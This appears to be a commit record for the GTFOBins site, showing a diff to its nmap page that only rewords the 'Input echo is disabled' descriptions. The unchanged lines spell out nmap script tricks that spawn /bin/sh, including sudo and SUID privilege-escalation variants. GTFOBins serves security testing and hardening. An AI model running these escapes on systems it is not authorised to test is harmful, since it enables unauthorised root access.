

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/nmap.md, in a window 1280 px wide. Shown: the whole page at 96% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix nmap descriptions

```diff
--- a/_gtfobins/nmap.md
+++ b/_gtfobins/nmap.md
@@ -1,19 +1,19 @@
 ---
 functions:
   execute-interactive:
-    - description: Echoing of input characters is disabled.
+    - description: Input echo is disabled.
       code: |
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
         nmap --script=$TF
   sudo-enabled:
-    - description: Echoing of input characters is disabled.
+    - description: Input echo is disabled.
       code: |
         TF=$(mktemp)
         echo 'os.execute("/bin/sh")' > $TF
         sudo nmap --script=$TF
   suid-enabled:
-    - description: Echoing of input characters is disabled.
+    - description: Input echo is disabled.
       code: |
         TF=$(mktemp)
         echo 'os.execute("/bin/sh -p")' > $TF
```
